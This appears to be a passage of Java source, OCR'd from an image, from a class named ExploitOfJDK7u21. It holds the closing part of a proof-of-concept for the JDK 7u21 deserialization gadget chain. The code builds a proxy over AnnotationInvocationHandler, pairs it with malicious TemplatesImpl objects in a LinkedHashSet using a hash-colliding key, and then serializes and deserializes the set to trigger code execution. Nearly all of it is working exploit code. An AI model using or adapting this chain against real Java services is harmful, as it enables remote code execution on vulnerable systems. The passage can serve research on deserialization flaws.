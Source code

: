 ```java
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        return templatesImpl;
    }

    public static void exp() throws Exception {

        TemplatesImpl templates = generateEvilTemplates();
        HashMap hashMap = new HashMap();
        hashMap.put("f5a5a608", "zero");

        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, hashMap);

        // Create a layer of proxy for tempHandler
        Templates proxy = (Templates) Proxy.newProxyInstance(ExploitOfJDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);
        // Instantiate the HashSet and put two objects in it
        HashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);

        // Set malicious templates into map
        hashMap.put("f5a5a608", te
mplates);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(set);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object object = (Object)ois.readObject();
        System.out.println(object);
        ois.close();
    }

    public static void main(String[] args) {
        try {
            exp();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
